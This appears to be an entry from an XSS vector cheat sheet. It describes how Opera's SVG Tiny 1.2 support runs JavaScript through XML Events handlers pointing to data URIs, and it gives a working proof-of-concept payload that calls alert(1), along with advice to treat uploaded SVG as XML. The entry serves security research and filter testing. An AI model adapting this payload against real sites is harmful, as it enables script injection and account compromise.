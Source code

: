 Make sure that user submitted SVG data and SVG files are treated as XML documents - not as images. The nature of SVG allows to include almost arbitrary XML data including JavaScript leading to XSS or worse.

*   opera 10.0
*   opera 12.0

*   xss
*   svg
*   opera
*   filter effects
*   feimage

*   [http://www.w3.org/TR/SVG/filters.html](http://www.w3.org/TR/SVG/filters.html)
*   [http://www.w3.org/TR/SVG11/animate.html#Animatable](http://www.w3.org/TR/SVG11/animate.html#Animatable)
*   [http://www.w3.org/TR/SVGMobile12/animate.html#Animatable](http://www.w3.org/TR/SVGMobile12/animate.html#Animatable)
*   [#88](#88)

reporter：.mario

### Executing JavaScript in SVG Tiny 1.2 without user interaction[#104](#104)[test](test/#104)

Opera - providing advanced support for SVG Tiny 1.2 targeting mobile devices - allows to execute JavaScript without user interaction via arbitrary tags. The tag is being applied with a handler pointing to a data URI containing the actual handler. Important is the hash at the end of the data URI to identify the corrrect handler. It is also possible to refer to an element contained in the SVG by its ID or an external resource.


```
<svg xmlns="http://www.w3.org/2000/svg" id="foo"> <x xmlns="http://www.w3.org/2001/xml-events" event="load" observer="foo" handler="data:image/svg+xml,%3Csvg%20xmlns%3D%22http%3A%2F%2Fwww.w3.org%2F2000%2Fsvg…Chandler%20xml%3Aid%3D%22bar%22%20type%3D%22application%2Fecmascript%22%3E alert(1) %3C%2Fhandler%3E%0A%3C%2Fsvg%3E%0A#bar"/> </svg>
```

*   opera 10.x
*   opera 12.0

*   xss
*   javascript
*   svg
*   tinysvg
*   listener
*   xml
*   events

*   [http://www.w3.org/TR/SVGMobile12/script.html](http://www.w3.org/TR/SVGMobile12/script.html)
*   [http://www.w3.org/TR/2003/REC-xml-events-20031014/](http://www.w3.org/TR/2003/REC-xml-events-20031014/)
*   [#85](#85)
*   [#94](#94)
*   [#127](#127)
